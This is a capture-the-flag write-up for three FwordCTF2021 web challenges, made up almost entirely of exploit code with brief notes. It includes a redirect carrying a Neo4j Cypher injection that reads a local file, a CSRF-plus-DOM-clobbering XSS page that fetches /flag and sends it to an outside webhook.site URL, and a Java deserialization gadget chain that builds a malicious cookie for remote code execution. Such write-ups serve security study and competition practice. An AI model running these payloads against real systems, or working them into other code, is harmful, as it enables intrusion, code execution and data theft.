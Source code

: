 # FwordCTF2021


## seoftw

redirect in front page + fetch redirect in backend page + neo4j read file

server.js

```javascript
const express = require('express');
const app = express();
const logger = require('morgan');

app.use(logger('dev'))

app.get('/', (req, res) => {
        return res.redirect('http://backend:5000/secret?name=Naruto"%20CALL%20{%20LOAD%20CSV%20FROM%20"file:///flag.txt"%20AS%20row%20RETURN%20row%20AS%20flag%20}%20RETURN%20flag;//');
});

app.listen(80)
```

## shusui

* Dom clobbering to get xss. 
* One really tricky part is that it can take either get request or post request as parameters to login. Seems a way to csrf. Besides, it use `if request.method=="GET":` to judge login method. So, in this scenario, it would be feasible to use `HEAD` request to get csrf.

```html
<script>
fetch("https://shisui.fword.tech/login?username=byc&password=123",
{
"method":"HEAD",
"credentials": "include",
  "redirect":"follow",
   "mode": "no-cors"
});
setInterval(() => {
window.open(`https://shisui.fword.tech/home?feedback=<a id=x href=clobbering data-y="fetch('/flag').then(r=>r.text()).then(r=>navigator.sendBeacon('https://webhook.site/ae3fe73f-3566-4bbf-aa5e-437f4dcba4e1',r));"><a id=showInfos><a id=SETTINGS name=check href=byc_404 data-timezone="123" data-location='1});eval(x.dataset.y)//'></a><a id=SETTINGS>`)
}, 3000);
</script>
```



## parrotOS

local unserialize gadget starts with a `compare` method. So same idea as the `CommonsBeanutils` gadget. RCE will be triggered when executing compare



```java
package top.bycsec.fwordctf;

import com.fword.utils.*;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class FwordExp {

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        Truncate tr = new Truncate();
        setFieldValue(tr, "value", "calc.exe");

        Constructor declaredConstructor = Class.forName("com.fword.utils.UtilityEval").getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        UtilityEval evil = (UtilityEval) declaredConstructor.newInstance();

        Feedback poc = new Feedback();
        setFieldValue(poc, "f1", evil);
        setFieldValue(poc, "f2", tr);

        Question q = new Question();
        setFieldValue(q, "category", poc);

        UserComparator comparator = new UserComparator();
        setFieldValue(comparator, "questionObj", q);


        final PriorityQueue queue = new PriorityQueue<>(2, comparator);

        queue.add(new User("1"));
        queue.add(new User("1"));


        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(queue);
            objectOutputStream.close();
            String cookie = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
            System.out.println(cookie);
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}
```
